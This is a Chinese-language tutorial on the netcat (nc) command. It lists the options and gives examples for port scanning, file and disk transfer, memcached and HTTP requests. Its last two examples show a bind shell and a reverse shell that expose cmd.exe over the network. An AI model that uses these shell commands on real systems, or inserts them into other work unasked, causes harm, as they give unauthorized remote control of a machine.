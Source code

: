# nc -kl 9999

Linux nc命令使用详解

   

功能说明：功能强大的网络工具

语　法：nc \[-hlnruz\]\[-g&lt;网关...&gt;\]\[-G&lt;指向器数目&gt;\]\[-i&lt;延迟秒数&gt;\]\[-o&lt;输出文件&gt;\]\[-p&lt;通信端口&gt;\]\[-s&lt;来源位址&gt;\]\[-v...\]\[-w&lt;超时秒数&gt;\]\[主机名称\]\[通信端口...\]

参　数：

 -g&lt;网关&gt; 设置路由器跃程通信网关，最丢哦可设置8个。

 -G&lt;指向器数目&gt; 设置来源路由指向器，其数值为4的倍数。

 -h  在线帮助。

 -i&lt;延迟秒数&gt; 设置时间间隔，以便传送信息及扫描通信端口。

 -l  使用监听模式，管控传入的资料。

 -n  直接使用IP地址，而不通过域名服务器。

 -o&lt;输出文件&gt; 指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存。

 -p&lt;通信端口&gt; 设置本地主机使用的通信端口。

 -r  乱数指定本地与远端主机的通信端口。

 -s&lt;来源位址&gt; 设置本地主机送出数据包的IP地址。

 -u  使用UDP传输协议。

 -v 详细输出--用两个-v可得到更详细的内容

 -w&lt;超时秒数&gt; 设置等待连线的时间。

  -z  使用0输入/输出模式，只在扫描通信端口时使用。

 

nc使用示例

 

1. 端口扫描

\# nc -v -w 2 192.168.2.34 -z 21-24

nc: connect to 192.168.2.34 port 21 \(tcp\) failed: Connection refused

Connection to 192.168.2.34 22 port \[tcp/ssh\] succeeded!

nc: connect to 192.168.2.34 port 23 \(tcp\) failed: Connection refused

nc: connect to 192.168.2.34 port 24 \(tcp\) failed: Connection refused

 

2. 从192.168.2.33拷贝文件到192.168.2.34

在192.168.2.34上： nc -l 1234 &gt; test.txt

在192.168.2.33上： nc 192.168.2.34 &lt; test.txt

 

3. 简单聊天工具

在192.168.2.34上： nc -l 1234

在192.168.2.33上： nc 192.168.2.34 1234

这样，双方就可以相互交流了。使用ctrl+C\(或D）退出。

 

4. 用nc命令操作memcached

1）存储数据：printf“set key 0 10 6rnresultrn” \|nc 192.168.2.34 11211

2）获取数据：printf“get keyrn” \|nc 192.168.2.34 11211

3）删除数据：printf“delete keyrn” \|nc 192.168.2.34 11211

4）查看状态：printf“statsrn” \|nc 192.168.2.34 11211

5）模拟top命令查看状态：watch“echo stats” \|nc 192.168.2.34 11211

6）清空缓存：printf“flush\_allrn” \|nc 192.168.2.34 11211 \(小心操作，清空了缓存就没了）

 

5. nc -p 1234 -w 5 host.example.com 80

建立从本地1234端口到host.example.com的80端口连接，5秒超时

nc -u host.example.com 53

u为UDP连接

 

6. echo -n "GET / HTTP/1.0"r"n"r"n" \| nc host.example.com 80

连接到主机并执行

 

7. nc -v -z host.example.com 70-80

扫描端口\(70到80\)，可指定范围。-v输出详细信息。

 

 

8. 远程拷贝文件

从server1拷贝文件到server2上。需要先在server2上，用nc激活监听，

 

server2上运行：

 

root@hatest2 tmp\]\# nc -lp 1234 &gt; install.log

 

server1上运行：

 

\[root@hatest1 ~\]\# ll install.log

-rw-r–r–  1 root root 39693 12月 20  2007 install.log

\[root@hatest1 ~\]\# nc -w 1 192.168.228.222 1234 &lt; install.log

 

9. 克隆硬盘或分区

操作与上面的拷贝是雷同的，只需要由dd获得硬盘或分区的数据，然后传输即可。

克隆硬盘或分区的操作，不应在已经mount的的系统上进行。所以，需要使用安装光盘引导后，进入拯救模式（或使用Knoppix工具光盘）启动系统后，在server2上进行类似的监听动作：

\# nc -l -p 1234 \| dd of=/dev/sda

 

server1上执行传输，即可完成从server1克隆sda硬盘到server2的任务：

\# dd if=/dev/sda \| nc 192.168.228.222 1234

 

※完成上述工作的前提，是需要落实光盘的拯救模式支持服务器上的网卡，并正确配置IP。

 

 

 

10. 保存Web页面

\# while true; do nc -l -p 80 -q 1 &lt; somepage.html; done

 

11. 模拟HTTP Headers,获取网页源代码和返回头部信息

 

\[root@hatest1 ~\]\# nc 80

GET / HTTP/1.1

Host: ispconfig.org

Referrer: mypage.com

User-Agent: my-browser

 

HTTP/1.1 200 OK

Date: Tue, 16 Dec 2008 07:23:24 GMT

Server: Apache/2.2.6 \(Unix\) DAV/2 mod\_mono/1.2.1 mod\_python/3.2.8 Python/2.4.3 mod\_perl/2.0.2 Perl/v5.8.8

Set-Cookie: PHPSESSID=bbadorbvie1gn037iih6lrdg50; path=/

Expires: 0

Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0

Pragma: no-cache

Cache-Control: private, post-check=0, pre-check=0, max-age=0

Set-Cookie: oWn\_sid=xRutAY; expires=Tue, 23-Dec-2008 07:23:24 GMT; path=/

Vary: Accept-Encoding

Transfer-Encoding: chunked

Content-Type: text/html

\[......\]

在nc命令后，输入红色部分的内容，然后按两次回车，即可从对方获得HTTP Headers内容。

 

 

12. 传输目录

从server1拷贝nginx-0.6.34目录内容到server2上。需要先在server2上，用nc激活监听，server2上运行：

引用

 

\[root@hatest2 tmp\]\# nc -l 1234 \|tar xzvf -

server1上运行：

引用

 

\[root@hatest1 ~\]\# ll -d nginx-0.6.34

drwxr-xr-x 8 1000 1000 4096 12-23 17:25 nginx-0.6.34

\[root@hatest1 ~\]\# tar czvf – nginx-0.6.34\|nc 192.168.228.222 1234

 

 

13.REMOTE主机绑定SHELL

例子：

 

格式：nc -l -p 5354 -t -e c:\winnt\system32\cmd.exe

讲解：绑定REMOTE主机的CMDSHELL在REMOTE主机的TCP5354端口

 

 

14.REMOTE主机绑定SHELL并反向连接

例子：

 

格式：nc -t -e c:\winnt\system32\cmd.exe 192.168.x.x 5354

讲解：绑定REMOTE主机的CMDSHELL并反向连接到192.168.x.x的TCP5354端口

以上为最基本的几种用法（其实NC的用法还有很多，

当配合管道命令"\|"与重定向命令"&lt;"、"&gt;"等等命令功能更强大......）。

